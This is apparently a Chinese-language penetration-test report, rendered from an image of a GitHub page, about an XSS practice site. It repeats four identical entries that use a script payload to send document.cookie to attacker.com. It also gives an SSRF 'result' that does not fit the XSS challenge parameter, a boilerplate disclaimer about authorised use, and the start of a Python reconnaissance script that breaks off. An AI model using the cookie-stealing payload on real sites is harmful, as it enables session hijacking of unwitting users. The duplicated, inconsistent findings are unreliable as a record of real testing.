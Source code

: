 ### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level1.php?name=test
- 参数: name
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level1.php?name=test
- 参数: name
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level1.php?name=test
- 参数: name
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level1.php?name=test
- 参数: name
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### SSRF 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level1.php?name=test
- 参数: name
- 使用的Payload: http://localhost/admin
- 利用结果: 成功访问内网端点: http://localhost/admin

## 免责声明
本报告中的攻击方法仅用于授权的安全测试和研究目的。
在使用这些方法之前，请确保：
1. 您有明确的授权许可
2. 仅在测试环境或授权范围内使用
3. 不要对未授权的目标使用这些方法
4. 遵守相关法律法规和道德准则

## 黑客攻击流程

### 1. 信息收集阶段
```python
import requests
from bs4 import BeautifulSoup
import re

def gather_info(url):
    # 1. 获取网站基本信息
    response = requests.get(url)
    server = response.headers.get('Server', '')
    cookies = response.cookies
    
    # 2. 提取所有链接和参数
    soup = BeautifulSoup(response.text, 'html.parser')
    links = soup.find_all('a')
    forms = soup.find_all('form')
    
    # 3. 探测网站架构
    paths = [
        '/admin', '/login', '/config',
```
